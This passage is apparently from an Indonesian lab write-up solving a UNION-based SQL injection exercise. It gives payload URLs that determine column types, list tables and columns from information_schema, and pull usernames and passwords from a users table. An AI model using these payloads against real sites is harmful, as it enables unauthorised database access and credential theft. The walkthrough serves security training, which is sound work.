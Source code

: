 <img width="1501" height="353" alt="image" src="https://github.com/user-attachments/assets/fd163a8c-11a7-4690-82da-65e66f8f0f17" />

Kesimpulan: Query asli memiliki 2 kolom.

- Menentukan Tipe Data: Gunakan payload ' UNION SELECT 'a','b'--. Jika string 'a' dan 'b' muncul di halaman, berarti kedua kolom tersebut dapat menampung data teks.
- url : 
```
.../filter?category=' UNION SELECT 'a','b'--
```

<img width="1385" height="520" alt="image" src="https://github.com/user-attachments/assets/329f9194-e18b-4506-8633-3bd1cc1e568b" />

Langkah 3: Mendapatkan Daftar Semua Tabel
- Payload: ' UNION SELECT table_name, NULL FROM information_schema.tables--
- url :
  ```
  .../filter?category=' UNION SELECT table_name, NULL FROM information_schema.tables--
  ```
- Penjelasan:
  - table_name: Ini adalah nama kolom di dalam tabel information_schema.tables yang berisi nama-nama semua tabel.
  - NULL: Kita gunakan sebagai placeholder untuk kolom kedua.
  - Hasil: Halaman akan memuat ulang dan menampilkan daftar semua nama tabel yang ada di database. Cari nama yang terdengar seperti menyimpan data pengguna, misalnya users, accounts, atau sesuatu yang diacak seperti users_abcdef.

<img width="1482" height="881" alt="image" src="https://github.com/user-attachments/assets/b65f92c3-1f37-4e44-9d37-0f5a0d2e0d55" />

Langkah 4 & 5: Menemukan Nama Kolom Kredensial

Setelah mengetahui nama tabel (users_scpanc), sekarang perlu mencari tahu nama kolom di dalamnya.
- Payload: ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_scpanc'--
- url
  ```
  .../filter?category=' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_scpanc'--
  ```
  
- Penjelasan:
  - column_name: Nama kolom di dalam information_schema.columns yang berisi nama-nama semua kolom.
  - WHERE table_name = 'users_scpanc': Kita memfilter hasilnya agar hanya menampilkan kolom dari tabel yang kita temukan tadi. P
Hasil: Halaman akan menampilkan daftar semua kolom di dalam tabel users_scpanc.

<img width="1387" height="678" alt="image" src="https://github.com/user-attachments/assets/cc350149-8aa8-4985-98aa-0b4f441ced21" />


Langkah 6 & 7: Mengekstrak Username dan Password

Ini adalah langkah terakhir. Kita sekarang memiliki semua informasi yang kita butuhkan:
- Nama Tabel: users_scpanc
- Nama Kolom Username: username_gnzgzh
- Nama Kolom Password: password_fwdjzp
- Payload: ' UNION SELECT username_gnzgzh, password_fwdjzp FROM users_scpanc--
- url :
  ```
  .../filter?category=' UNION SELECT username_gnzgzh, password_fwdjzp FROM users_scpanc--
  ```
- Hasil: Halaman akan menampilkan daftar semua username di satu sisi dan password yang sesuai di sisi lain.
